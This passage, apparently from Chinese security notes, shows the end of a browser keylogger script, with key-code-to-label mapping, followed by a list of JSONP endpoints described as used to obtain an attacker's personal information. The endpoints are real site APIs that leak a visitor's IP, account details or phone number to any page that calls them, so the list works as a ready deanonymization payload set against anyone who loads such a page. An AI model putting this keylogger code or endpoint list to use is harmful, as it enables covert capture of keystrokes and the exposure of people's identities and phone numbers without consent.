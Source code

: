 ```bash
        break;

      case 13:
        keyName = "[回车]";
        break;
      //case 16:keyName = "[shift]"; break;

      case 17:
        keyName = "[Ctrl]";
        break;

      case 18:
        keyName = "[Alt]";
        break;

      case 20:
        keyName = "[大小写]";
        break;

      case 32:
        keyName = "[空格]";
        break;

      case 33:
        keyName = "[PageUp]…</script>
```

常用于获取攻击者个人信息的 JSONP 接口：

```bash
http://burp/favicon.ico
https://openfpcdn.io/fingerprintjs/v3
https://verify.cmpassport.com/h5/httpsPreGetmobile
https://www.taobao.com/help/getip.php?callback=ipCallback
https://www.yy.com/yyweb/user/queryUserInfo.json?callback=jsonp
https://www.cmpassport.com/h5/onekeylogin/getNewUnicomPhonescrip
https://www.cmpassport.com/h5/onekeylogin/getNewTelecomPhonescrip
https://tieba.baidu.com/tbmall/gettdouiconinfo?callback=jsonp1613919078534
https://yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd
https://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_16073033003861
https://v2.sohu.com/api/pc-home-city/home-data/ip2location?_=1606458878259&callback=jQuery1124018281896477578718_1606458878259
https://id6.me/auth/preauth.do?paramKey=10F72757C5A5A12B0A6DA61E62BDF3238163CC31B9CC3CC506CCD6BF67D3BC8CEEC92DAF1ED125BC4F681D118A2ED62D8CD18EE0629220BD69802469FAB4E1C62067CA310EDC5E1A2DCDCF0E8202AA852D611A0B78364344F15A866395C9AAF3C1061C9F6B1ACDCAB232960AC6F14D615ED5184184BDB125AC647A8422EC25D7&clientType=2&paramStr=39826A2D6BADA0327947D80463C1422C01D472F90ECC1B7FC72D262D1C7AC4FC201506C46971655C6C67C5714F232A532126204E40DD35C24C4264AC5D106D9EBEFEBB98157CB7230F5F8BF1788608CA3CF9F38998815804A4652BF20C1EB763525257296155BAF2B4B46836ED276DE6944344B4135D94555640885B4363C4AD&appId=8013416909&format=jsonp&sign=C733AA0C9B2F41175F94344CAF0AA227C2F2B199&version=1.5&
https://opencloud.wostore.cn/openapi/netauth/precheck/wp?timeStamp=1659325750804&packname=xxx&business_type=1&format=jsonp&sign=FCE6F4692C5FEDD8993FDEBD079EBF49&callback=getNewUnicomPhone&fp=&client_type=7&version=v4.5&client_id=99166000000000000228&key=c4ZMLe9%2F1iX9Do2h4FGMqy5vC0IzZ%2Fgj9LePAFU%2BwTSc%2BHUbB6W1arA9YDRqR7HjFok226YHwwJrLq06Da%2BBMBM%2FPV7%2FexfV3uV%2BbR0xzMz4Xy%2F1pKyIriuaXA%2BieaQeYtvjXs1gTYXWc%2F8vZb3TODk9cKywn9FOI7m3iqrJUko%3D&packsign=xxx&
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
```
